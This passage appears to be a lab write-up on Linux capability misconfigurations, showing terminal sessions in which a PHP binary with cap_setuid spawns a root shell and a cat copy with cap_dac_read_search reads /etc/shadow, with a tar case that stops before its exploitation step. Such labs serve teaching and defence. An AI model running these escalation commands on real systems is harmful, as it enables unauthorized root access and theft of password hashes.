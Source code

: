 User
```
kali@kali:~/code/capabilities$ CMD="/bin/sh"
kali@kali:~/code/capabilities$ php -r "posix_setuid(0); system('$CMD');"
id
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),128(lpadmin),132(scanner)
^C

kali@kali:~/code/capabilities$ getcap -r .
./php_mod cap_setuid=ep
kali@kali:~/code/capabilities$ ./php_mod -r "posix_setuid(0); system('$CMD');"
id
uid=0(root) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),128(lpadmin),132(scanner)
```

### Cat Scenario

Sysadmin misconfig modified cat binary
```
root@kali:/home/kali/code/capabilities# cp $(which cat) ./cat_mod
root@kali:/home/kali/code/capabilities# setcap cap_dac_read_search+ep cat_mod 
```

User
```
kali@kali:~/code/capabilities$ cat /etc/shadow
cat: /etc/shadow: Permission denied

kali@kali:~/code/capabilities$ getcap -r .
./cat_mod cap_dac_read_search=ep

kali@kali:~/code/capabilities$ ./cat_mod /etc/shadow
root:!:18288:0:99999:7:::
daemon:*:18288:0:99999:7:::
...
```

### Tar Scenario

Sysadmin misconfigured tar
```
root@kali:/home/kali/code/capabilities# cp /etc/shadow ./shadowFile
root@kali:/home/kali/code/capabilities# ls -la shadowFile
-rw-r----- 1 root root 1639 Apr 18 00:45 shadowFile

root@kali:/home/kali/code/capabilities# cp $(which tar) ./tar_mod
root@kali:/home/kali/code/capabilities# setcap cap_dac_read_search+ep tar_mod 
```

User - cant read shadowFile or compress it with tar
```
kali@kali:~/code/capabilities$ cat shadowFile 
cat: shadowFile: Permission denied
kali@kali:~/code/capabilities$ tar -cvf shadowFile.tar /etc/shadow
tar: Removing leading `/' from member names
tar: /etc/shadow: Cannot open: Permission denied
tar: Exiting with failure status due to previous errors
```
